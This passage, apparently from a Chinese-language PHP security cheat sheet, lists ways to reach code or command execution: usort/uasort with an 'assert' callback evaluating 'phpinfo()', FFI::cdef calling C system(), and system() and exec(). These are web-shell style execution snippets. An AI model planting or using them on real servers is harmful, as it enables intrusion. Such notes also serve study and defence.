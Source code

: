 #### usort

本函数将用用户自定义的比较函数对一个数组中的值进行排序。 如果要排序的数组需要用一种不寻常的标准进行排序，那么应该使用此函数。

```php
<?php 
$a[0]=1;
$a[1]='phpinfo()';
usort($a,'assert');
?>
```



#### uasort

uasort — 使用用户自定义的比较函数对数组中的值进行排序并保持索引关联

```php
<?php 
$a[0]=1;
$a[1]='phpinfo()';
uasort($a,'assert');
?>
```

#### FFI::cdef

创建一个新的FFI对象,可以把c语言的函数声明出来。以调用c语言system函数为例。

```python
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='ls > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```



## php命令执行函数

#### system 

system — 执行外部程序，并且显示输出.如果 PHP 运行在服务器模块中， system() 函数还会尝试在每行输出完毕之后， 自动刷新 web 服务器的输出缓存。成功则返回命令输出的最后一行， 失败则返回 FALSE

```php
<?php 
system('commande')
?>
```

#### exec

exec() 执行 command 参数所指定的命令。

```php
<?php 
echo exec ('commande');
?>

```
